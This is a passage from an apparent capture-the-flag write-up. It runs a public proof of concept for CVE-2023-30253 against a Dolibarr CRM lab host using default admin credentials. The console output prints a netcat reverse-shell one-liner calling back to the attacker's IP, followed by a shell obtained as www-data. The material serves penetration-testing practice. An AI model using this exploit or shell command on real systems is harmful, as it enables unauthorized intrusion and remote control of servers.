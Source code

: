 Odd to have a PoC fail for its font choice! I modified this line to make it work:

```python
300     #print(f"{Fore.CYAN}{pyfiglet.figlet_format('CVE', font='isometric1')}{Style.RESET_ALL}")
301     print(f"{Fore.CYAN}{pyfiglet.figlet_format('CVE')}{Style.RESET_ALL}")
```

```console
$ python3 ./CVE-2023-30253.py --url http://crm.board.htb -u admin -p admin -r 10.10.14.2 443
  ______     _______
 / ___\ \   / / ____|
| |    \ \ / /|  _|
| |___  \ V / | |___
 \____|  \_/  |_____|
 ___ __ ___ ____   ____ __ ___ ___ ____
|_  )  \_  )__ /__|__ //  \_  ) __|__ /
 / / () / / |_ \___|_ \ () / /|__ \|_ \
/___\__/___|___/  |___/\__/___|___/___/
[+] By Rubikcuv5.
[*] Url: http://crm.board.htb
[*] User: admin
[*] Password: admin
[*] Reverseshell info:
        IP:10.10.14.2
        PORT:443
[*] Verifying accessibility of URL:http://crm.board.htb/admin/index.php
[*] Attempting login to http://crm.board.htb/admin/index.php as admin
[+] Login successfully!
[*] Creating web site ...
[+] Web site was create successfully!
[*] Creating web page ...
[+] Web page was create successfully!
[▄] Trying to bind to :: on port 443: Trying ::
Exception in thread Thread-1 (initial_listener):
Traceback (most recent call last):
  File "/usr/lib/python3.11/threading.py", line 1045, in _bootstrap_inner
[*] Executing command rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.2 443 >/tmp/f
    self.run()
  File "/usr/lib/python3.11/threading.py", line 982, in run
    self._target(*self._args, **self._kwargs)
  File "/home/kali/boardlight/cve-2023-30253/./CVE-2023-30253.py", line 297, in initial_listener
    shell = listen(port, timeout=20).wait_for_connection()
            ^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/kali/.local/lib/python3.11/site-packages/pwnlib/tubes/listen.py", line 108, in __init__
    listen_sock.bind(self.sockaddr)
OSError: [Errno 98] Address already in use
[-] An error occurred: 504 Server Error: Gateway Timeout for url: http://crm.board.htb/website/index.php?website=test123&pageid=11&action=setshowsubcontainers&token=9286ebeeb9bfce845bd2ccbbe1686edf
```

Strangely enough, I get a reverse shell in spite of the error above.

```console
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.11] 38158
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
